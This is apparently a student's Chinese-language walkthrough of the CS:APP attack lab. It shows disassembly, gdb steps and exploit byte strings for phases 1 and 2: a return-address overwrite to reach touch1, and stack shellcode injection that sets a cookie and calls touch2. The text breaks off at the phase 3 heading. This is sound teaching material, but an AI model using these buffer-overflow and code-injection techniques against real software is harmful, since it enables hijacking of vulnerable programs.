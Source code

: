 # attack-lab

## 简介

这个实验是使用缓冲区溢出或者一些栈上的操作使得程序不按照预期执行从而跳转到一些不可预知的地方。

> 从小就觉得attack是一个很神奇的事情，现在自己操作起来还是觉得很好玩！在完成bomblab之后再完成这个attacklab发现真的很好玩

## WARNING

#### execute

Please look!!!
	There is to old for ctarget, so we need to fix some problem, otherwise we will get fault without 	typing in some string!
	So we search the blog and then found the solutions that we can add a printf.so to fix it!
this is the address I found [solution for printf.so](https://blog.rijuyuezhu.top/posts/db646f34/) and the printf.so is just at this address!

#### gdb

`ctarget`的运行需要使用特殊的`printf.so`，所以在使用`gdb`的时候也是需要设置的

```bash
gdb ctarget
(gdb) set environment LD_PRELOAD=./printf.so
(gdb) break getbuf # set the breakPoint
# s for stepi is to run next step
(gdb) info register # when you come after getting the 40bytes stack memory
```



## phase_1

#### 题目介绍

本题`没有启动栈保护`，可以直接写入栈来修改程序的执行指令。查看题目可以知道需要通过`gets()`的特殊性质来读取一个长的字符串以达到修改栈上返回地址的目的

```c
// test code of c
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }

// touch1 code of c
1 void touch1()
2 {
3 vlevel = 1; /* Part of validation protocol */
4 printf("Touch1!: You called touch1()\n");
5 validate(1);
6 exit(0);
7 }
```

然后题目需要我们在`test()`调用`getbuf()`的时候不要返回`test`，而是直接跳转到`touch1`。根据题目可以知道直接修改`test`在调用`getbuf`时在栈中`push`的`ret`地址就好了

> `gets()`不管三七二十一，反正没有读到`\n`就不会停止，一直读取输入，这就会导致栈上分配的数据区装不下那么多字符导致父程序的栈帧被修改从而引发危险，甚至可以直接注入一些意想不到的汇编那更是逆天

#### 题目解析

获取`ctarget`的汇编

```bash
objdump -d ctarget > ctarget.asm # this command is to disassembly the code
```

查看`test`汇编代码可以发现栈指针在保存返回地址之后就直接进入`getbuf`

```assembly
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp 
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf> # 从这里进入getbuf
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	call   400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	ret    
  401991:	90                   	nop
  401992:	90                   	nop
  401993:	90                   	nop
  401994:	90                   	nop
  401995:	90                   	nop
  401996:	90                   	nop
  401997:	90                   	nop
  401998:	90                   	nop
  401999:	90                   	nop
  40199a:	90                   	nop
  40199b:	90                   	nop
  40199c:	90                   	nop
  40199d:	90                   	nop
  40199e:	90                   	nop
  40199f:	90                   	nop
```

查看`getbuf`汇编发现分配了`40bytes`的数组空间，那么结合上面的`test`即可知道，从当前`rsp`往上的`40bytes`是分配的数组长度，返回地址在`41bytes--48bytes`之间，所以我们在这段保存返回地址的地方修改为`touch1`的地址即可

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp #分配了40bytes的空间
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets> 
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

查看`touch1`的汇编获取地址

```assembly
00000000004017c0 <touch1>: # 这里就是需要修改为的目标地址
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```

由于`x86-64`是小端序，因此需要注意地址的书写，地址应该为`c0 17 40 00 00 00 00 00`

创建一个`txt`文件，前面40个字符可以随便写喜欢什么写什么，后面一行变成对应地址即可

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

现在使用官方提供的工具并结合`ubuntu22.04`本题的补丁来完成这题

```bash
./hex2raw  < phase_1.txt | LD_PRELOAD=./printf.so ./ctarget -q 
```

> 根据最近看的`linking`来说，这里的`LD_PRELOAD=./printf.so`是希望该程序使用我们自定义的共享文件来链接，问就是直接运行不了

## phase_2

#### 题目介绍

这题和`phase_1`差不多，但是需要在执行`touch2`前修改`rdi`的值为`cookie`的值。本题的思路是先将需要执行的代码注入栈中，然后将返回地址修改为需要执行的代码的栈地址上，以此来完成寄存器的修改以及`touch2`的调用

```mermaid
flowchart TD
    A[test] --> B[getbuf]
    B --> C[input string to modify the stack]
    C --> D[normally return to test]
    D --> E[Fail]
    C --> F[return to the stack address that conatins injected code]
    F --> G[%rdi = cookie 
    		push touch2_address 
    		ret]
    G --> H[Pass]
```

#### 题目解析

通过题目的介绍就可以知道就是注入代码并执行代码

需要一些准备工作，将需要注入的汇编代码保存到`phase_2.s`中

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

然后将汇编代码编译再反编译获取机器码

```bash
gcc -c phase_2.s # 汇编
objdump -d phase_2.o > phase_2.asm # 获取反汇编
```

此时可以获得我们想要注入的代码的x86机器码

```assembly

phase_2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    

```

提取里面的机器码如下并在`phase_2.txt`中写入

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00 # 很坑的一个地方，需要停下来看一下      	
00 00 00 00 00 00 00 00            	
00 00 00 00 00 00 00 00            	
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # 在这里先不要看这一行
```

> 坑点：内存中指令的放置是连续的，比如一个1字节长度的指令和8字节的指令是靠在一起的，而不是说每个指令都占8字节，因此我们提取完指令之后需要将指令放在一起，这就解释了为什么上面的这个c3为什么没有另开一行的原因

需要注入的代码已经有了，如何让机器执行这段代码呢？那就是需要找到这段代码注入的栈地址，然后让`%rip`指向这个栈地址即可！

> 这里指向的栈地址与自己编写的注入代码的位置息息相关，为了避免计算错误直接零帧起手

很容易知道我们注入的代码在`getbuf()`里面分配的`40bytes`的起始地址，因此使用`gdb`查看在分配完这些字节地址后`%rsp`指向的地址就是这个起始地址

使用`gdb`[[查看这个地址](####gdb)]发现地址是 `78 dc 61 55 00 00 00 00`，因此需要将返回`test`地址的地方修改为返回`78 dc 61 55 00 00 00 00`即可

```bash
./hex2raw  < phase_2.txt | LD_PRELOAD=./printf.so ./ctarget -q 
```

## phase_3

